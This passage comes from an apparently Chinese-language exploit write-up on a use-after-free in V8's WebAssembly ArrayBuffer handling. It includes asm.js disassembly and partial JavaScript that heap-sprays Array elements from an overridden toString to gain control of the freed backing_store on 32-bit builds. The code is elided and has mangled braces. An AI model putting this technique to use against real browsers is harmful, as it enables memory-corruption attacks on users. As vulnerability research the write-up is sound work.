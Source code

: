 
可以看出，由于没有更新`wasm`实例里的`ArrayBuffer`对象，并且后面该`ArrayBuffer`被释放，由此导致了UAF的产生，原来`backing_store`的内存空间被`unmmap`掉了，使得其不再出现在映射表中。当我们再次访问这块内存时，便出现了段错误。



## 0x03 漏洞利用

### <a class="reference-link" name="%E6%A6%82%E8%BF%B0"></a>概述

现在，我们制造出了一个UAF，但是`backing_store`的内存与一般对象的内存地址是分开的，不能指望将其他对象占位与此。与`backing_store`类似的是`Array`的`Element`，它们都属于大容量存储，因此它们之间很可能会分配到相邻的地址或者地址相差较小的位置。因此，我们可以考虑使用`Heap Spray`技术，在`backing_store`地址附近都布局下`Array`的`Element`对象，然后通过`UAF`去控制。由于64位内存空间太大，`Heap Spray`似乎无法成功将`Element`对象放到`backing_store`地址附近，因此这个漏洞目前仅在32位下成功利用。

### <a class="reference-link" name="%E4%BD%95%E6%97%B6%E8%BF%9B%E8%A1%8C%20Heap%20Spray"></a>何时进行 Heap Spray

我们需要寻找一个合适的时机进行`Heap Spray`，在`asm.js`模块的汇编代码中，我们注意到如下代码

```
0x255062c0     0  55             push ebp
0x255062c1     1  89e5           mov ebp,esp
0x255062c3     3  56             push esi
0x255062c4     4  57             push edi
0x255062c5     5  8b4508         mov eax,[ebp+0x8]
0x255062c8     8  e8d303b035     call 0x5b0066a0  (ToNumber)    ;; code: BUILTIN
0x255062cd     d  a801           test al,0x1
0x255062cf     f  0f8528000000   jnz 0x255062fd  &lt;+0x3d&gt;
0x255062d5    15  d1f8           sar eax,1
.....................
```

可以看到，因为我们在`asm.js`模块中声明`x = x | 0;`，所以会先调用`ToNumber`获取对象`x`的值，而`ToNumber`会调用对象内部的`toString`函数，因此，我们可以重写`toString`函数，并在`toString`函数里开始`Heap Spray`。

```
//堆喷
var victim_array = [];
victim_array.length = 0x750;
var array = [1.1];
array.length = 0x10000;
array.fill(2.2);
function spray_heap() `{`
    for(var i = 0;i &lt; victim_array.length;i++)`{`
        victim_array[i] = array.slice(0,array.length);
    `}`
`}`
..........................
//重写对象的toString函数，这样在执行ToNumber时可以同时触发Hpeap Spray
trigger = `{``}`;
trigger.toString = function()`{`
    spray_heap();
    return 0xffffffff;
`}`;
evil_f(trigger);
```
